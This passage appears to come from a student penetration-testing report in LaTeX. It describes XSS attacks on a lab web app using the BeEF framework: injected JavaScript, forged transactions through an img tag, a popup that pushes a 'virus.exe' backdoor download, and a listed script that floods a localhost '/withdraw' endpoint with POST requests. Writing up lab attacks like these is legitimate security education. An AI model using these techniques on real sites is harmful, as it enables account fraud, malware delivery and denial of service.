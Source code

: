To Achieve we have use used BeEF XSS framework \nocite{beefproject}. BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser.

Through the interface of BeeF we submit our script to target the web page. Figure \ref{fig:beefForst} shows the submitted JavaScript code in to web page.
\begin{figure}[H]
    \centering
    \texttt{[image: alisina/BeefJavaScrit1.jpeg]}
    \caption{JavaScript script through BeEF}
    \label{fig:beefForst}
\end{figure}

After submitting the script the users will see the message the in their web page. Figure \ref{fig:beefFirstResult} shows the result of attack.
\begin{figure}[H]
    \centering
    \texttt{[image: alisina/beefResult1.jpeg]}
    \caption{JavaScript script through BeEF}
    \label{fig:beefFirstResult}
\end{figure}

We did a DOM Request as img tag to do unathorized transactions from user session which is shown in figure \ref{fig:beefImageTransaction}.
\begin{figure}[H]
    \centering
    \texttt{[image: alisina/beefImageTransaction.jpeg]}
    \caption{Transaction through Image tag}
    \label{fig:beefImageTransaction}
\end{figure}

We forced the user with DOM Popup to download virus.exe payload to have a backdoor attack on user's computer. Figure \ref{fig:beefPopup} shows the attack.
\begin{figure}[H]
    \centering
    \texttt{[image: alisina/beefpopup.jpeg]}
    \caption{BeEF Popup example}
    \label{fig:beefPopup}
\end{figure}

In addition, we can run a DDOS attack through vistim's computer with the help of XSS attack with running the following script.
\begin{verbatim}
	var options = {
    host: 'localhost', 
    path: '/withdraw',
    port: '1234', 
    method: 'POST',
    headers: {'Content-Type' : 'application/json'}
}; 

function readJSONResponse(response){
   var responseData = ''; 
    response.on('data', function(chunk){
        responseData += chunk;
    }); 
    response.on('end', function(){
        console.log(responseData);
    }); 
}

for( var i = 0; i < 1000; i++) {
    if(i % 2 != 0) {
        var data = {
            "amount": 0.001,
            "id": i,
            "token": dateToken
        };
        var req = http.request(options, readJSONResponse);
        req.write(JSON.stringify(data));
        req.end();
    }
}
\end{verbatim}
\nocite{sqlmap}
\nocite{zaproxy}
\nocite{burp}





